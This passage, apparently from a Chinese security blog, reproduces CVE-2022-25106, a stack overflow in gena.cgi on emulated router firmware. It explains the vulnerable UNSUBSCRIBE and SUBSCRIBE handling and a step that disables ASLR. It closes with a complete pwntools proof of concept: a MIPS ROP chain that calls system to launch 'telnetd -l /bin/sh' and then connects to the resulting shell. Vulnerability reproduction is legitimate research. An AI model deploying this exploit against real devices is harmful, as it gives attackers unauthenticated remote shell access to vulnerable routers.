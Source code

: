 ![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8HoL8rWLfqC4l5ibczH6C2H4U8vMYL7l8aaicKxibliadS87LOmicR82u1EWia5GJFcvbnkPOicpVpU5gZ5w/640?wx_fmt=png)

五  

  

**CVE-2022-25106**

漏洞信息：CVE-2022-25106（_https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-25106_）

这个漏洞仍然是在 gena.cgi 中，不过这次是存在缓冲区溢出的漏洞：

![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8HoL8rWLfqC4l5ibczH6C2H4NFDYG4icuT11OvZtzQdQDGnRNldTuCiclu2G9kNTIbaibg8piaticiavN0Cg/640?wx_fmt=png)

上图是当为 UNSUBSCRIBE 请求方式时走到的函数，很容易看出存在一处栈溢出的漏洞，且当请求方式为 SUBSCRIBE 时，也存在同样的栈溢出漏洞。

需要提一下的就是，这里的 SERVER_ID 环境变量可以从 httpd.conf 文件中看到：

![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8HoL8rWLfqC4l5ibczH6C2H4Gz9WleicnI2nLwWTUG0AAOgb0ibEEhrE7SQXLhibJtt9FIibeNSsqRJr4Q/640?wx_fmt=png)

这个环境变量本身就不为空，也不是我们可控的，在这个栈溢出漏洞中，我们可以对 service 或 HTTP_SID 进行 payload 的注入，进行漏洞利用或造成拒绝服务。

这里需要注意的是：用 FAP 启动好固件后，需要用 echo 0 > /proc/sys/kernel/randomize_va_space 命令关闭地址随机化（ASLR），因为在真机环境中就是没开 ASLR 的，也方便我们接下来的复现：

![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8HoL8rWLfqC4l5ibczH6C2H4HicBARPvic379FWsk6YL5oOCVAYSsRciaPTJLwHzK2xUpqTDh2KzAooJw/640?wx_fmt=png)

**POC-1：**

用 UNSUBSCRIBE 的请求方式，对 service 进行了注入。

```
# python3
from pwn import *
from socket import *
from os import *
from time import *
context(os = 'linux', arch = 'mips')
 
libc_base = 0x2aaf8000
 
s = socket(AF_INET, SOCK_STREAM)
 
cmd = b'telnetd -l /bin/sh;'
payload = b'a'*462
payload += p32(libc_base + 0x53200 - 1) # s0  system_addr - 1
payload += p32(libc_base + 0x169C4) # s1  addiu $s2, $sp, 0x18 (=> jalr $s0)
payload += b'a'*4 # fp
payload += p32(libc_base + 0x32A98) # ra  addiu $s0, 1 (=> jalr $s1)
payload += b'a'*0x18 # padding
payload += cmd
 
msg = b"UNSUBSCRIBE /gena.cgi?service=" + payload + b" HTTP/1.1\r\n"
msg += b"Host: localhost:49152\r\n"
msg += b"SID: 1\r\n\r\n"
 
s.connect((gethostbyname("192.168.10.1"), 49152))
s.send(msg)
 
sleep(1)
system("telnet 192.168.10.1 23")
```
